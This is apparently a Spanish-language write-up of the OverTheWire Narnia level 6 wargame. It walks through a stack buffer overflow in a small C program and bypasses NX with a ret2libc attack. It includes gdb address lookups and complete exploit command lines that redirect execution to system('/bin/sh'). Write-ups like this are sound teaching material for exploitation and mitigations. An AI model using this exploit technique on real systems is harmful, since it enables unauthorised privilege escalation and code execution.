

# `> [NARNIA 6]`

```bash
$ ssh narnia6@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> dos buffers diminutos · libc como arsenal · la pila que no ejecuta igual obedece

$ echo $VECTOR
> stack buffer overflow · ret-into-libc · NX bypass · control de argumentos en pila
```

---

## `> [RECON]`

```bash
$ cat /narnia/narnia6.c
```

```c
int main(int argc, char *argv[]){
    char b1[8], b2[8];
    [...]
    strcpy(b1, argv[1]);
    strcpy(b2, argv[2]);
```

Ocho bytes. Dos veces.
El programador se enteró de que la pila no ejecuta código.
Pensó que eso era suficiente.

No lo era.

NX bit activo significa que tu shellcode inyectada en el buffer no corre.
Significa exactamente eso. Nada más.
No significa que el proceso no pueda ejecutar código.
Significa que ese código tiene que venir de otra parte.

Y hay otra parte. Siempre.

---

## `> [HYPOTHESIS]`

```diff
+ NX activo — shellcode clásica en el buffer causa crash estéril.
+ b1 y b2 se desbordan con argv[1] y argv[2]. el offset es pequeño.
+ el binario está enlazado dinámicamente a libc. system() vive en memoria.
+ "/bin/sh" existe como string dentro de libc. no hay que inyectarlo.
+ ASLR desactivado — las direcciones de libc son estáticas y predecibles.
+ la pila falsa tiene que simular una llamada legítima:
  [ system() ] [ exit() ] [ "/bin/sh" ]
- intenté shellcode clásica. NX la bloqueó. crash sin información útil.
- asumí que sin shellcode no había camino. había tres.
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// 3l 4rs3n4l y4 3st4b4 1nst4l4d0.</code></summary>

```bash
# — intento 1
# localizar system() y exit() en libc.
gdb$ print system
# $1 = 0xf7e4c860
gdb$ print exit
# $2 = 0xf7e3faf0
# las direcciones son estáticas. ASLR está desactivado.
# lo que GDB muestra es lo que hay en la ejecución real.

# — intento 2
# buscar el string "/bin/sh" dentro de libc.
# no hay que inyectarlo. ya existe. solo hay que encontrarlo.
gdb$ find 0xf7e20000, +5000000, "/bin/sh"
# 0xf7f68cca
# ahí está. tres direcciones. todo lo que necesitamos ya vive en memoria.

# — intento 3
# medir el offset exacto hasta EIP con los dos buffers.
gdb$ run $(python3 -c 'from pwn import *; print(cyclic(30).decode())') BBBB
# EIP = fragmento del patrón. cyclic_find() → offset en b1.
# b1 (8) + padding GCC + EBP = offset real hasta EIP.

# — intento 4
# primer payload. geometría de la pila falsa incorrecta.
# exit() mal posicionado — el proceso terminó con SIGSEGV después de system().
$ /narnia/narnia6 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*OFFSET + b"\x60\xc8\xe4\xf7" + b"\xf0\xfa\xe3\xf7" + b"\xca\x8c\xf6\xf7")') BB
# system() ejecutó pero el argumento no apuntaba a "/bin/sh".
# la pila no estaba alineada correctamente.

# — intento 5 — ahí.
# el stack falso tiene que verse exactamente como una llamada real a system():
# [ system() ][ exit() ][ ptr a "/bin/sh" ]
# system() usa exit() como dirección de retorno.
# exit() recibe 0 como argumento — después del ptr a "/bin/sh".
$ /narnia/narnia6 \
  $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*OFFSET + b"\x60\xc8\xe4\xf7" + b"\xf0\xfa\xe3\xf7" + b"\xca\x8c\xf6\xf7")') \
  $(python3 -c 'import sys; sys.stdout.buffer.write(b"B"*OFFSET2)')
```

```txt
system() → 0xf7e4c860
exit()   → 0xf7e3faf0
/bin/sh  → 0xf7f68cca
shell: narnia7.
```

</details>

---

## `> [BREAK]`

La pila antes del overflow:

```
direcciones bajas ↓

  [ b1 (8 bytes) ] [ b2 (8 bytes) ] [ padding ] [ EBP ] [ Saved EIP ]

direcciones altas ↑
```

La pila después — lo que construimos:

```
  [ relleno hasta EIP ] [ system() ] [ exit() ] [ "/bin/sh" ]
                         ↑ nuevo EIP   ↑ ret de    ↑ argumento
                                         system()    de system()
```

Piensa en esto como una obra de teatro donde cambias el guion
cinco minutos antes de que empiece.
Los actores son los mismos — `system()`, `exit()`, libc completa.
El escenario es el mismo — la memoria del proceso.
Solo cambiaste lo que dice el papel que cada uno va a leer.

La CPU llega a `ret`. Salta a `system()`.
`system()` busca su argumento en la pila — encuentra `"/bin/sh"`.
Ejecuta. El proceso corre como narnia7.
Cuando termina, `system()` retorna a `exit()`.
El programa sale limpio.

NX bit intacto. Sin un solo byte de código inyectado.

En 2001, nergal publicó en Phrack 58 cómo encadenar esto.
No una llamada — varias.
Cada función preparando el contexto para la siguiente.
El blueprint de lo que tres años después se llamaría ROP.

Lo que hiciste aquí es el primer eslabón de esa cadena.

> *→ [`/lore/nergal_phrack58.md`](../lore/nergal_phrack58.md)*

---

## `> [EXPLOIT]`

```bash
# dirección de system() en libc
SYSTEM="\x60\xc8\xe4\xf7"
# dirección de exit() en libc
EXIT="\xf0\xfa\xe3\xf7"
# dirección de "/bin/sh" en libc
BINSH="\xca\x8c\xf6\xf7"

/narnia/narnia6 \
  $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*OFFSET + b"'"$SYSTEM"'" + b"'"$EXIT"'" + b"'"$BINSH"'")') \
  $(python3 -c 'import sys; sys.stdout.buffer.write(b"B"*OFFSET2)')
```

```
system()     → el EIP falso. la CPU salta aquí.
exit()       → la dirección de retorno de system(). salida limpia.
"/bin/sh"    → argumento de system(). ya existe en libc. no lo inyectamos.
NX intacto   → no ejecutamos nada propio. usamos lo que ya estaba.
ASLR off     → las direcciones son estáticas. sin eso, necesitaríamos un leak.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ NX bloquea ejecución en la pila. no bloquea el control del flujo.
+ system() + exit() + "/bin/sh" — los tres ya están en memoria. solo hay que encontrarlos.
+ la geometría de la pila falsa importa. system() espera su argumento en una posición exacta.
+ ASLR desactivado = direcciones estáticas. con ASLR activo necesitas un memory leak primero.
- shellcode en buffer con NX → crash sin información. tiempo perdido.
- pila falsa mal alineada → system() ejecuta con argumento incorrecto. shell no aparece.
```

---

## `> echo $CHALLENGE`

No inyectaste código.
Construiste una conversación falsa entre funciones reales.
La CPU la creyó.

En 2001, nergal publicó cómo hacer esto con diez funciones encadenadas.
Cada una preparando el contexto para la siguiente.
Sin una sola instrucción propia en memoria.

Eso tiene un nombre hoy: **ROP — Return-Oriented Programming**.
Es la técnica que los exploit developers usan cuando todas las mitigaciones modernas están activas.
ASLR. NX. Stack canaries. PIE.
Todo activo. Y ROP sigue funcionando.

Si crees que las mitigaciones modernas cerraron esta puerta —
busca **Phrack 58, nergal, 2001**.
Busca qué es un gadget ROP.
Busca por qué cualquier binario con suficiente código
lleva dentro las instrucciones para destruirse a sí mismo.

El que no lo busca asume que el candado es suficiente.
El candado nunca fue suficiente.

---

```
█████████████████████████████████████████████
█                                           █
█   n0 1ny3ct4st3 n4d4.                    █
█         c0nstruist3 un4 m3nt1r4           █
█              qu3 l4 cpu cr3y0.           █
█                                           █
█████████████████████████████████████████████
```

> *→ [youtube.com/@t474-r0b07](https://youtube.com/@t474-r0b07)*
> *→ siguiente: [narnia7](../narnia7/)*

---
<!-- 0x72 0x65 0x74 0x32 0x6c 0x69 0x62 0x63 // 3l c0d1g0 qu3 n3c3s1t4s y4 3x1st3. -->
